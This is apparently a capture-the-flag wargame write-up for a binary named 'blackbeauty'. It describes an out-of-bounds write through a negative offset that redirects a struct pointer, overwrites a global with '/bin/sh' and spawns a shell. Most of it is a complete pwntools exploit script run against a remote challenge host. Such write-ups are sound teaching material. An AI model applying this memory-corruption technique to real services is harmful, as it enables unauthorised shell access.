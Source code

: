 # SOLUTION

Setting the offset to -8 allows us to write the the symbol member of the
ticker\_tape struct. Now, we can write the address of the src\_file global
variable to the member byte by byte. After we have overwritten the char array
pointer, we can choose to change the symbol to overwrite the src\_file variable
with "/bin/sh". Finally, we trigger the shell by executing the view source
command.

The solution script:

```py
from pwn import *

#context.log_level = 'debug'

def main():
    #p = process("./blackbeauty")
    p = remote("wargame", 31341)

    # Random tape length
    p.sendline("10")

    # Write the address of the src file to the symbol member struct
    src_file_address = p64(0x60c980)
    p.sendline("3")
    p.sendline("-8")
    for i in src_file_address:
        p.sendline("2")
        p.sendline(str(ord(i)))

    # Write new shell command
    p.sendline("4")
    p.send("/bin/sh".ljust(16, "\x00"))

    # Spawn the shell
    p.sendline("8")

    p.recvrepeat(0.2)

    log.success("Enjoy your shell!")
    p.interactive()

if __name__ == "__main__":
    main()

```
